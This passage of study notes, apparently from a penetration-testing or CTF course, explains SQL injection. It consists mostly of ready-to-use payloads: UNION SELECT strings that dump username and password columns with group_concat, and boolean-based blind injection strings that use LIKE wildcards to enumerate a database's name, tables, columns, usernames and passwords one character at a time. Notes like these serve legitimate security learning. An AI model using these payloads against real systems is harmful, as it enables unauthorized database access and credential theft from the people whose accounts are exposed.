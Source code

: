 
Can then find details from table using either:  
```sql
0 UNION SELECT * FROM table_name where username='user'
```
```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM tablen
```
	Provides list in single line & uses HTML tag _<br>_ for line breaks btw entries  
  
  
  
### Blind-Based Auth Bypass:
Login forms that are connected to a db of users are often developed so the web app isn't interested in the content of the fields but whether the two make a matching pair in the users table  
  
→ Leads to:  
**Boolean-Based:**  
When you have a login that checks for usernames already taken: can enum looking for results that return ‘true’  
```sql
false_user' UNION SELECT 1,2,3 where database() like '%';--
```
	Can cycle through _‘a%’_, _‘b%’_, _‘c%’_, etc etc until you reach a ‘true’ result telling you the start of the name of the db.  
		Can then cycle through all combinations of _‘sa%’_, _'sb%'_, _‘sc%’_, etc etc until all letters of the db name are discovered.  
  
Then can enum through table names within discovered db:  
```sql
false_user' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'found_table' and table_name like 'a%';--
```

  
Can confirm found table within found db:  
```sql
false_user' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'found_db' and table_name='found_table';--
```


Enum through columns:  
```sql
false_user' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='found_db' and TABLE_NAME='found_table' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';  

```
  
  
Enum through data:  
```sql
false_user' UNION SELECT 1,2,3 FROM found_table WHERE username_col='a%'
```
	Find usernames  

```sql
false_user' UNION SELECT 1,2,3 FROM found_table WHERE username_col='admin' and password_col like 'a%'
```
	Find passwords  
  